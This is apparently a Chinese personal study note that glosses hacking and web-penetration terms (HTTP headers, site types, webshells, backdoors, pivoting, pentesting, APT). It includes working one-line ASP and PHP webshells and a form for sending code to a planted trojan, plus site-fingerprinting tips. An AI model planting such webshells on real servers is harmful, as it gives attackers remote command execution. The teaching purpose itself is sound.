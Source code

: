 ```yaml
---
title: Hacker的部分专业术语
date: 2021-05-16 15:53:07
tags:
- 学习笔记
categories:
- [计算机知识, Web渗透]
---
```


### 脚本（asp，php，jsp）

### html（css，js，html）

### HTTP协议

  超文本传输协议
  （HTTP，HyperText Transfer Protocol）是互联网上应用最为广泛的一种网络协议。所有的WWW文件都必须遵守这个标准。设计HTTP最初的目的是为了提供一种发布和接收HTML页面的方法。  

  `HTTP头`讲解：

  ```raw
  [root@bt ~]# curl-I www.baidu.com
  HTTP/1.1 200 OK
  Date:Sat, 18 Apr 2015 16:42:13GMT
  Content-Type: text/html; charset=utf-8
  Connection: Keep-Alive
  Vary: Accept-Encoding
  Set-Cookie: BAIDUID=3098620FDEE24194CF6F5A853507E9BC:FG=l; expires=Thu, 31-Dec-37 23:55:55 GMT; max-age=2147483647; path=/; domain=.baidu.com
  Set-Cookie: BIDUPSID=3098620FDEE24194CF6F5A853507E9BC; expires=Thu, 31-Dec-37 23:55:55 GMT; max-age=2147483647; path=/; domain=.baidu.com
  Set-Cookie: BDSVRTM=0; path=/
  Set-Cookie: BD_HOME=0; path=/
  Set-Cookie: H_PS_PSSID=13421_1426_13466_13074_12825_13381_12868_13322_12691_13410_10562_12722_12735_13439_13086_13477_13324_12836_13491_13162_13256_8498; path=/; domain=.baidu.com
  P3P: CP= "OTI_DSP_COR_IVA_OUR_IND_COM"
  ```

  200 响应码  
  date 日期  
  content-type 类型  
  Accept-Charset：浏览器可接收的字符集  
  Content-Length：表示请求消息正文的长度  
  Cookie：这是最重要的请求头信息之一  

<br />

  参考网站：  
  [curl 的用法指南](http://www.ruanyifeng.com/blog/2019/09/curl-reference.html)  
  [HTTP响应头信息|菜鸟教程](https://www.runoob.com/http/http-header-fields.html)  
  [HTTP头部信息详解](https://www.cnblogs.com/wait59/p/13736601.html)  
  [HTTP头部详解](https://blog.csdn.net/sinat_34166518/article/details/83584910)  

### 静态网站

静态网站是指全部由HTML（标准通用标记语言的子集）代码格式页面组成的网站，所有的内容包含在网页文件中。网页上也可以出现各种视觉动态效果，如：GIF动画、Flash动画、滚动字幕等，而网站主要是静态化的页面和代码组成，一般文件名均以htm、html、shtml等为后缀。  
如：<http://www.xxx.com/index.html>

### 动态网站

动态网站并不是指具有动画功能的网站，而是指网站内容可根据不同情况动态变更的网站，一般情况下，动态微网站通过数据库进行架构。  
动态网站除了要设计网页外，还要通过数据库和编程序来使网站具有更多自动的和高级的功能。动态网站体现在网页一般是以asp，jsp，php，aspx等结尾，而静态网页一般是HTML结尾，动态网站服务器空间配置要比静态的网页要求高，费用也相应的高，不过动态网页利于网站内容的更新，适合企业建站。动态网站是相对于静态网站而言。  
如：<http://xxx.com.cn/index.asp>  

判断一个网站是什么编程语言写的，网站地址末尾加上index.asp/jsp/php/html等，也可加上robots.txt，有的是没有的，防止机器爬虫  
判断Linux系统还是Windows系统，把网页地址中的文件后缀其中一个字母改为大写，如不报错，即为Windows。（Linux系统大小写敏感，Windows系统不敏感）  

### 伪静态

“伪静态”顾名思义就是一种表面上看似是静态网页（以.html、.htm等结尾），不存在任何的数据交互，却其实是动态网页，存在数据交互的网站，具有这种特性的网页被称为“伪静态网页”。我们看到的伪静态网页其实是经过处理的，将动态网页的id等参数通过URL重写来隐藏，让查看者以为是静态网页。  
参考网站：  
[Web安全-伪静态网页](https://blog.csdn.net/weixin_39190897/article/details/104150886)  

* CMS（B/S）
* MD5
* 肉鸡：被黑客入侵并被长期驻扎的计算机or服务器
* 抓鸡：利用大量的程序漏洞，使用自动化方式获取肉鸡的行为
* 漏洞：硬件，软件，协议等等的可利用安全缺陷，可能被攻击者利用，对数据进行篡改，控制等
* Webshell：通过Web入侵的一种脚本工具，可以据此对网站服务进行一定程度打的控制

* 一句话【木马】：  
  通过向服务端提交一句简短的代码，配合本地客户端实现 Webshell 功能的木马。  

  ```raw
  <%eval request(“pass”)%>
  <%execute (request(“pass”))%>
  ```

  request(“pass”) 接收客户端提交的数据，pass为执行命令的参数值。  
  eval / execute 函数执行客户端命令的内容。  

  这种木马一般会被安全狗拦截  
    如PHP的一句话木马：  

    ```php
    <?php eval($_POST[cracer]);?>
    ```

  下面的代码可以用POST的方式提交PHP语句，利用php脚本的各种函数，就可以实现执行系统命令，修改数据库、增删改文件等的各种功能。  

    ```php
    <form method=post action=http://木马地址>
         <textarea name=yourname>
               //这里写php代码
               phpinfo();
         </textarea>
         <input type=submit>
    </from>
    ```

* 提权： 操作系统低权限的账户将自己提升为管理员权限使用的方法。
* 后门：黑客为了对主机进行长期的控制，在机器上种植的一段程序或留下的一个“入口”。

* 跳板：使用肉鸡IP来实施攻击其他目标，以便更好地隐藏自己的身份信息。
* 旁站入侵：
即同服务器下的网站入侵，入侵之后可以通过提权跨目录等手段拿到目标网站的权限。
常见的旁站查询工具有：
WebRobot、御剑、明小子和Web在线查询等。

* C段入侵：
即同C段服务器入侵，如目标ip为192.168.1.253入侵192.168.1.xxx的任意一台机器，然后利用一些黑客工具嗅探获取在网络上传输的各种信息。  
常用的工具有：  
Window环境——Cain  
UNIX环境——Sniffit，Snoop，Tcpdump，Dsniff，etc.  

* 渗透测试：
  * 黑盒测试：
    * 在未授权的情况下，摸你黑客的攻击方法和思维方式，来评估计算机网络系统可能存在的安全风险。
    * 黑盒测试不同于黑客入侵，并不等于黑站。黑盒测试考验的是综合能力（OS，Datebase，Script，code，思路，社工）
    * 思路与经验积累往往决定成败

  * 白盒测试：
    * 相对黑盒测试，白盒测试基本是从内部发起

  * 黑白盒的另一种说法：
    * 知道源代码和不知道源代码的渗透测试
这时，黑盒测试还是传统的渗透测试，而白盒测试就偏向于代码审计。

* APT攻击：
  * Advanced Persistent Threat（高级可持续性攻击）
  * 是指组织（especially the government）或者小团体利用先进的攻击手段对特定目标进行长期持续性网络攻击的攻击形式。
  * 特点：
    1. 极强的隐蔽性
    2. 潜伏期长，持续性强
    3. 目标性强

渗透测试的特点：  

1. 充满挑战与刺激——不达目的不罢休  
2. 思路与经验累积往往决定成败  
